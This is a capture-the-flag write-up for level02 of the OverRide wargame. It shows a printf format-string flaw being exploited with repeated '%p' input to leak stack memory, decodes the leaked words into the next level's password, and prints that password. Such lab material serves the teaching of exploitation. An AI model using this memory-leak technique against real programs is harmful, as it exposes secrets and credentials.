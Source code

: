 After analyzing the source code, we can see that it executes /bin/sh only if the password matches the flag.

We also noticed the code use a `printf` with just an argument, a variable used to display the username. So the `printf` is vulnerable to format string attack.

First, let's test this:

```Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
0x7fffffffe4f0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x20 (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

Since we know that the program has open the .pass file we search for a address that look's like a string and can be the passcode :
First we check : `0x2a2a2a2a2a2a2a2a` => `"********"`
After we check this : `0x7025207025207025` => `"p% p% p%"`
And then we check : `0x756e505234376848` => `"unPR47hH"`, ok this looks more like passcode let's try to get the full string

Since it is a string we know that there is a `\0` or here a `(nil)` at the end. So let's get the part which is situated between two (nil) values.

`0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`

</br>
Now we will change the format form little endian to big Endian:

Little Endian : `0x756E505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`

&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;↓&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;↓&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;↓&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;↓&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;↓</pre>

Big Endian : &nbsp;`0x4868373452506E75 0x51397361354A4145 0x58674E5743717A37 0x7358476E68354A35 0x4D394B6650673348`
Converted to ascii this gives us: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`.

Let's try this:

```Shell
level02@OverRide:~$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
```
